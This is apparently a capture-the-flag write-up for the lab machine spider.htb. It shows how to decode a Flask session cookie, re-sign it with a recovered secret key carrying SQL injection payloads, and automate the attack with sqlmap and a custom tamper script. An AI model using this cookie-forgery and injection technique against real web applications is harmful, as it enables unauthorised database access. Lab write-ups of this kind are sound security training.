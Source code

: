 # Flask Cookie - Injection
```bash
flask-unsign --decode --cookie 'eyJjYXJ0X2l0ZW1zIjpbIjkiLCI5Il0sInV1aWQiOiI3Nzg4MjRkYi0zMzFiLTQ2Y2ItOTNlMi1lZDJmMTRjMDFkOWYifQ.YLOKRQ.z9xeb81uBVpnTycK4x90lWKt_JI'

{'cart_items': ['9', '9'], 'uuid': '778824db-331b-46cb-93e2-ed2f14c01d9f'}
```

## Key
```bash
Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```


## Injection

cart_items is injectable.

```bash
flask-unsign --sign --cookie={'cart_items': ['1 OR 1=1--'], 'uuid': '778824db-331b-46cb-93e2-ed2f14c01d9f'} --secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
```

This will return a valid token that puts all existing products in the cart.

Knowing this, lets use sqlmap and a tamper script to craft the cookie.

## Request

```html
GET /cart HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJjYXJ0X2l0ZW1zIjpbIjEgT1IgMT0xIFVOSU9OIFNFTEVDVCA5OSwgJ2hpJywnQ2hhaXInLCAxMjM0LS0iXSwidXVpZCI6Ijc3ODgyNGRiLTMzMWItNDZjYi05M2UyLWVkMmYxNGMwMWQ5ZiJ9.YLOdAQ.S7TXcNk7vI6FgfAm4K0ippIwnBg
Upgrade-Insecure-Requests: 1

``` 



## SQLMap

```bash
sqlmap -u "http://spider.htb/cart" --cookie="session=1" -p 'session' --param-filter='COOKIE' --level=5 --risk=3 --tamper="flaskencode" --dbms=mysql --delay=0.15 --dbs

```

## Tamper Script

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import flask_unsign

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
	
	return flask_unsign.sign({'cart_items' : [ payload ], 'uuid':'ed86b957-0459-47ab-bc21-b9c14bbaab88'}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')
```